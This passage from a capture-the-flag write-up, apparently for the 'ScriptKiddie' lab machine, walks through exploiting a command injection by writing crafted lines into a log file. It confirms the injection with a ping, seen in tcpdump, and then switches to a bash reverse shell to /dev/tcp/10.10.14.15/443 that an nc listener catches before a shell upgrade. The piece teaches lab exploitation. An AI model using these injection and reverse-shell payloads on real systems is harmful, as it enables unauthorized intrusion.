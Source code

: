 I’ll start `tcpdump` and put that into the log:

```

kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #"  > hackers

```

Immediately there’s ICMP at `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:50:17.736260 IP 10.10.10.226 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
12:50:17.736296 IP 10.10.14.15 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64

```

#### Shell

With command injection verified, I’ll update the payload from a `ping` to a reverse shell. I could also do things like writes a SSH key or make a SUID copy of `sh`.

I’ll write this payload with a reverse shell to the logs:

```

kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # ."  > hackers

```

Immediately at `nc` there’s a connection:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52532
bash: cannot set terminal process group (873): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$

```

Same shell upgrade for command history:

```

pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
pwn@scriptkiddie:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
pwn@scriptkiddie:~$ 

```
